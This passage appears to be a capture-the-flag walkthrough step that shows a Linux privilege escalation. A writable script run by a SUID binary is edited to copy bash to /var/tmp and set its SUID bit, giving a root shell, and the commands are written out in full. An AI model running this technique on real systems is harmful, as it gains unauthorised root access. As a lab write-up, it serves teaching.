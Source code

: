 
## ⚡ Exploitation

We found `/opt/run_container.sh` is writable. Let's use it to escalate privileges.

1. **Move to /var/tmp:**
   ```bash
   cd /var/tmp
   cp /bin/bash .
   ```

2. **Edit `/opt/run_container.sh`:**
   ```bash
   #! /bin/bash
   cp /bin/bash /var/tmp/bAsh
   chmod +s /var/tmp/bAsh
   ```
   <img src="./images/exploit_code.png" alt="Exploit Code" width="600"/>

3. **Run the SUID binary:**
   ```bash
   /usr/sbin/run_container
   ```
   <img src="./images/exploit.png" alt="Exploit Run" width="600"/>
   <img src="./images/bAsh_file_get.png" alt="bAsh File" width="600"/>
